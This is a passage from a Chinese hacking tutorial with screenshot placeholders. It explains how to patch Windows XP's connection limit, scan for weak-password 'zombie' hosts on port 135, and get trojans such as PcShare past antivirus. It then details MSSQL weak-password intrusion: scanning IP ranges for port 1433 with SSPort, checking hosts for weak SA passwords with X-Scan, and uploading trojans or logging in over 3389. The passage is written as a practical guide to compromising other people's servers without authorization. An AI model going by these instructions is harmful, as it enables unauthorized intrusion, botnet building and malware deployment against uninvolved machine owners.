

图 1.13

当前的限制数，一般情况下建议设置到 2000 或者更高。在“当前限制”中输入 2000，点击“应用补丁”按钮，因为补丁需要修改受保护的系统文件，所以会弹出 Windows 文件保护的对话框，只需要点击“取消”按钮，然后再点击“是”按钮就可以保存修改后的文件了，整个过程大概需要 30 秒左右，如图 1.14。SP3 连接数破解补丁使用起来比 SP2 的破解要简单的多，只需要打开工具，在“更改限制为”中输入 2000，然后点击“应用”按钮就可以了，如图 1.15。最后别忘记了，不管是 SP2 还是 SP3，在修改完连接数之后必须重新启动计算机才能生效。



图 1.14

> **小知识：Windows 文件保护（WFP）**

从 Windows2000 开始，微软引入了“Windows 文件保护”功能（Windows File Protection）。当重要的系统文件（包括 sys、dll、ocx、ttf、fon、exe 等类型）被替换或移动时，WFP 会对新文件的数字签名进行验证，以确定新文件的版本是否为正确的 Microsoft 版本；如果文件版本不正确，Windows 文件保护会自动调用 DLLCache 文件夹或 Windows 中存储的备份文件替换该文件；如果 Windows 文件保护无法定位相应的文件，系统就会提示用户输入该位置或插入安装光盘。WFP 在后台自动运行，可以防止重要的系统文件被替换，大大提高了系统的稳定性。

- 2、**本地连接和防火墙的问题**：由于 XP 系统弱口令依赖的是 135 端口，而 135、445 等总是和 WINDOWS 的共享有些关系。在桌面上右键点击“网上邻居”，选择“属性”，然后双击“本地连接”图标，在弹出的本地连接属性中勾选上“Microsoft 网络的文件和打印机共享”，图 1.16。还有就是 Windows 的防火墙设置，双击“控制面板”后，再双击“Windows 防火墙”进入防火墙的设置窗口，一般为了省事在扫描……



图 1.15



图 1.16

- 3. 有些地区的电信运营商限制了 135 这个端口，如果他们已经将 135 端口屏蔽的话，那么即便你怎么设置都不可能扫描到 135 肉鸡。如果碰到这种情况，一般有两种解决方法：第一种是使用代理或者 VPN 来进行扫描；第二种是在服务器肉鸡上直接进行扫描，一般是不会对服务器进行端口限制的。
- 4. 最后就要说说你的木马是否合格了：第一，你的木马是否已经壮烈牺牲在到达肉鸡的路上，至于原因可能是由于木马体积过大外加网络环境不顺畅所导致，解决的方法就是使用小巧的木马，比如 PcShare；第二，你的木马在到达肉鸡的时候被对方的杀毒软件查杀掉了，原因就不用多说了，肯定是免杀不过关了，寻找或者找人制作一个免杀好点的木马就行了。

### 1.2 应用服务的弱口令入侵

所谓应用服务，指的是服务器上所安装的应用程序，这和我们普通电脑中的应用程序很类似，不同的是服务器中的应用程序是用来服务大众的，例如 MSSQL、MYSQL、SERV-U、RADMIN、PCANYWHERE 等。很多应用服务都有自己的管理系统，当然也就少不了管理密码，如果这些管理密码为空或者是一些比较好猜测的密码，那么安全隐患也就随之而来了。我们就以 MSSQL 和 RADMIN 的弱口令来介绍一下如何入侵。

### 1.2.1 入侵的原理

利用应用服务所存在的弱口令，使用专门的连接程序连接到服务器，然后再利用应用服务的强大功能控制整个服务器，这就是我们的目的。如果当地的 ISP 服务商将 135 …



图 1.17

端口屏蔽而无法扫描肉鸡的话，可以在入侵得到一个服务器之后再在它上边扫描肉鸡，因为应用服务所开放的端口一般ISP是不会屏蔽的，所以这些应用服务的弱口令大家都能够扫描，只要能上网就可以。

> **小知识：什么是ISP**

ISP的英文是Internet Service Provider，翻译为互联网服务提供商，也就是向广大用户综合提供互联网接入业务、信息业务和增值业务的电信运营商。ISP是经国家主管部门批准的正式运营企业，享受国家法律保护。

### 1.2.2 应用服务弱口令入侵实战

MSSQL是一种只能运行在Windows系统中的DBMS（数据库管理系统），在MSSQL中的最高权限为SA权限（即SYSTEM和ADMIN的缩写），它是MSSQL数据库的默认系统帐户，相当于Windows系统中的Administrator帐号，具有最高权限。通过SQL连接器等专门的工具可以连接到数据库服务器的1433端口上（这是MSSQL默认使用的端口），利用扩展存储过程可以执行系统命令，当然权限也就是SYSTEM了。接下来的MSSQL弱口令入侵可以分为三步：第一步，使用端口扫描工具寻找到底哪些主机开放了MSSQL的端口，基本就可以确定对方开放了MSSQL服务；



图1.18



图1.19

第二步，使用专门的弱口令扫描工具对第一步扫描出的主机进行第二次排查，找出存在弱口令的主机；第三步，使用SQL连接工具连接到MSSQL主机，上传木马或者使用3389登录服务器。

首先打开SSPort端口扫描工具，在“IP段设置”中输入想扫描主机的IP地址范围，然后点击“添加”按钮，再在“端口设置”中点击“增加”按钮，输入“1433”端口。再根据自身的网络环境设置“扫描参数”并设置扫描的速度，速度太慢会影响扫描进度，速度太快……





则会影响到扫描的准确度。最后点击左上角的“扫描”按钮就可以开始扫描了，如图1.18。



在扫描完成后，可以在工具中看到扫描的结果，如图1.19，由于内部网络中没有那么多MSSQL主机，所以可以很轻松的记住，如果是大范围的扫描，那么扫描结果中的IP地址会很杂乱而且数量很多，就需要使用工具的导出功能将扫描结果导出到一个TXT文本文档中了。点击“导出”按钮，然后选择保存的路径和文件名就行了。

不过由于后面扫描时所使用的外部主机列表格式和SSPort导出的格式有所不同，所以需要稍微修改一下。打开导出的TXT文本文件，选择“编辑”菜单下的“替换”功能，在“查找内容”中输入“:1433”，“替换为”就直接为“”（空），然后点击“全部替换”按钮，这样就可以将每个IP地址后面的“:1433”删除掉了，如图1.20。



得到开放 MSSQL 服务的主机 IP 地址后，我们使用 X-Scan 来扫描它们是否存在弱口令。选择“设置”下的“扫描参数”选项，在“检测范围”中勾选上“从文件获取主机列表”，它会让你选择主机列表的文件（也就是刚才修改好的 TXT 文本），如图 1.21。打开“全局设置”下的“扫描模块”，由于我们只扫描主机是否存在 MSSQL 弱口令，所以只需要勾选“SQL-Server 弱口令”即可，如图 1.22。切换到“并发扫描”设置，根据自身的网络环境设置“最大并发主机数量”和“最大并发线程数量”，如图 1.23。



切换到“其他设置”中，由于已经确认主机列表中的主机开放了 1433 端口，所以选择“无条件扫描”，并且勾选上“显示详细进度”，这样可以看到扫描工具的实时进度，如图 1.24。

